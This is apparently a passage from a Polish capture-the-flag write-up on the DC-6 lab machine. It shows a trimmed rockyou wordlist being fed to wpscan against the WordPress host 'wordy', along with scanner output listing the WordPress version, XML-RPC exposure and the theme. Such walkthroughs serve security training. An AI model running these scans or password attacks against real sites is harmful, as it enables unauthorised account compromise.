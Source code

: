 ## 03. Wpscan
**Wpscan**, jak niejednokrotnie wspominałem jest najlepszym programem do skanowania podatności **Worppress**a. Teraz też się nim zajmiemy. Podatnych na włamania pluginów jest multum, ale tym zajmiemy się potem. Na początek poszukajmy użytkowników przypisanych do **Wordpress**a. Jak radzi autor, żeby przyspieszyć wyszukiwanie, trzeba zmniejszyć słownik **rockyou.txt**.
{: .text-justify}
```bash
# cat /usr/share/wordlists/rockyou.txt | grep k01 > pass_from_clue.txt
# root@kali:/home/szikers/dc-6# wpscan -P pass_from_clue.txt --url wordy
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://wordy/ [172.16.1.214]
[+] Started: Fri Oct  8 14:44:14 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://wordy/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://wordy/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.1.1 identified (Insecure, released on 2019-03-13).
 | Found By: Rss Generator (Passive Detection)
 |  - http://wordy/index.php/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>
 |  - http://wordy/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://wordy/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://wordy/wp-content/themes/twentyseventeen/README.txt
```